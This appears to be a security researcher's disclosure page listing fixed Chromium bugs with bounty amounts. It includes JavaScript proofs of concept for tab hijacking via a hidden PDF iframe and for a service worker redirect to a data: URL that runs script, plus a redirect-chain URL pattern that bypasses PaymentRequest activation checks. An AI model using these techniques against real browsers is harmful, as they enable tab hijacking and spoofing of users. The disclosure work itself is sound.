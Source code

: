 This issue was fixed in <https://issues.chromium.org/40059056>

# Tab hijacking without user activation, Fixed

```js
let f = document.createElement('iframe');
f.hidden = true;
f.src =
  'https://www.w3.org/WAI/ER/tests/xhtml/testfiles/resources/pdf/dummy.pdf';
document.body.appendChild(f);
setTimeout((_) => {
  f.contentWindow[0].postMessage({type: 'print'}, '*');
  f.contentWindow[0].postMessage({type: 'print'}, '*');
  setTimeout(location.reload(), 100);
}, 100);
```

This issue was fixed in <https://issues.chromium.org/40828189> video PoC <https://www.youtube.com/watch?v=n28qodJ4hhk>

# Bypass PaymentRequest.show() calls after the first, Awarded $1000

By abusing the chrome page auto reloader such as with max redirects `https://xsinator.com/testcases/files/maxredirect.php?n=19&url=https://mixolydian-wild-legal.glitch.me/?url=<ATTACKER PAGE>` you can bypass the following rule:

- PaymentRequest.show() calls after the first (per page load) require either transient user activation or delegated payment request capability.

This issue was fixed in <https://issues.chromium.org/40072274> video PoC <https://www.youtube.com/watch?v=2X5RNABRK40>

# Service workers allowing redirects to data: URLs, Awarded $4000

Top-level navigations of this type are also not normally allowed. <https://blog.mozilla.org/security/2017/11/27/blocking-top-level-navigations-data-urls-firefox-59/> This navigation inherits from the opener as shown for the origin in the protocol confirmation dialog and also leaks the victims CSP.

```js
self.addEventListener('fetch', function (event) {
  event.respondWith(
    Response.redirect('data:text/html,<script>prompt("Test")</script>')
  );
});
```

This issue was fixed in <https://issues.chromium.org/379337758>

# File picker UI spoof, Awarded $2000
